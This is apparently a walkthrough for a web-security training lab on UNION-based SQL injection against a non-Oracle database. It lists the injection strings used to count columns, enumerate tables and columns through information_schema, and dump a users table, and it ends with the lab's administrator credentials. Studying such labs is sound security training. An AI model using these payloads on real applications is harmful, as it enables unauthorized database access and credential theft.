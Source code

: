# Lab: SQL injection attack, listing the database contents on non-Oracle databases

Determine number of columns: `'UNION+SELECT+'A','A'--`

Get the tables in the DB with `'UNION+SELECT+NULL,TABLE_NAME+FROM+information_schema.tables--`

Searching for "users" in the returned data, "users_cbjojh" looks like a good candidate for holding usernames/passwords.

Try finding the columns in the table: `'UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_cbjojh'--`

This returns:
```
username_vdivoj
password_quyikd
```

Query the columns: `'UNION+SELECT+username_vdivoj,password_quyikd+FROM+users_cbjojh--`

Login with the returned creds:
```
administrator
24hi6j7ggwswq8r0123t
```